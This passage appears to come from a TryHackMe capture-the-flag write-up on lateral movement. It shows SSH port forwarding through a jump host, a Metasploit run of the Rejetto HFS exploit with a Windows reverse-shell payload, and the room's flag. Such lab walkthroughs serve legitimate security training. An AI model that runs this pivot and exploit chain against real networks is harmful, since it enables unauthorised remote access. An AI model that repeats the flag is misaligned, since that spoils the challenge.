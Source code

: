We need to start the ssh service:

```
# If we're on kali:

sudo systemctl start ssh.socket

# On arch:

sudo systemctl enable sshd
```

Now, inside of our ssh session, we need to do:

```
ssh tunneluser@10.50.46.98 -R 8888:thmdc.za.tryhackme.com:80 -L *:5555:127.0.0.1:5555 -L *:7777:127.0.0.1:7777 -N
```

Once we do all that, we need to open metasploit:

```
msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7777 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 5555

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

Once we run exploit, we can see our shell:

![[Pasted image 20250516155044.png]]

Let's get our flag:

```
C:\hfs>type flag.txt
THM{FORWARDING_IT_ALL}
```

# Conclusion
---

In this room, we have discussed the many ways an attacker can move around a network once they have a set of valid credentials. From an attacker's perspective, having as many different techniques as possible to perform lateral movement will always be helpful as different networks will have various restrictions in place that may or may not block some of the methods.
